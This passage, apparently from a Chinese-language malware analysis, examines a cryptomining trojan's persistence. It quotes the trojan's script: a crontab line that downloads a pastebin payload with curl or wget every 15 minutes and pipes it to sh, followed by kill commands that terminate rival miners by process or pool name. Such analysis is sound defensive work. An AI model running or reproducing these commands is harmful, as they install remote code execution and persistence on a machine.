 通过查看计划任务发现。

每15分钟执行一次更新下载操作：

[![](https://p5.ssl.qhimg.com/t01ab3f039e654f6419.png)](https://p5.ssl.qhimg.com/t01ab3f039e654f6419.png)

通过网页访问这个url发现其是一段base64加密的数据

 [![](https://p2.ssl.qhimg.com/t01de676b234787e590.png)](https://p2.ssl.qhimg.com/t01de676b234787e590.png)

脚本内容分析如下：

每15分钟从pastebin上下载经过base64编码的该脚本自身并写入到定时任务中：

```
export PATH=$PATH:/bin:/usr/bin:/sbin:/usr/local/bin:/usr/sbin

echo "*/15 * * * * (curl -fsSL https://pastebin.com/raw/sByq0rym||wget -q -O- https://pastebin.com/raw/sByq0rym)|sh" | crontab -
```

关闭其他可能存在的挖矿木马：

```
ps auxf | grep -v grep | grep hwlh3wlh44lh | awk '`{`print $2`}`' | xargs kill -9

ps auxf | grep -v grep | grep Circle_MI | awk '`{`print $2`}`' | xargs kill -9

ps auxf | grep -v grep | grep get.bi-chi.com | awk '`{`print $2`}`' | xargs kill -9

ps auxf | grep -v grep | grep hashvault.pro | awk '`{`print $2`}`' | xargs kill -9

ps auxf | grep -v grep | grep nanopool.org | awk '`{`print $2`}`' | xargs kill -9

ps auxf | grep -v grep | grep /usr/bin/.sshd | awk '`{`print $2`}`' | xargs kill -9

ps auxf | grep -v grep | grep /usr/bin/bsd-port | awk '`{`print $2`}`' | xargs kill -9

ps auxf|grep -v grep|grep "xmr" | awk '`{`print $2`}`'|xargs kill -9

ps auxf|grep -v grep|grep "xig" | awk '`{`print $2`}`'|xargs kill -9

ps auxf|grep -v grep|grep "ddgs" | awk '`{`print $2`}`'|xargs kill -9

ps auxf|grep -v grep|grep "qW3xT" | awk '`{`print $2`}`'|xargs kill -9

ps auxf|grep -v grep|grep "wnTKYg" | awk '`{`print $2`}`'|xargs kill -9

ps auxf|grep -v grep|grep "t00ls.ru" | awk '`{`print $2`}`'|xargs kill -9

ps auxf|grep -v grep|grep "sustes" | awk '`{`print $2`}`'|xargs kill -9

ps auxf|grep -v grep|grep "thisxxs" | awk '`{`print $2`}`' | xargs kill -9

ps auxf|grep -v grep|grep "hashfish" | awk '`{`print $2`}`'|xargs kill -9

ps auxf|grep -v grep|grep "kworkerds" | awk '`{`print $2`}`'|xargs kill -9
```

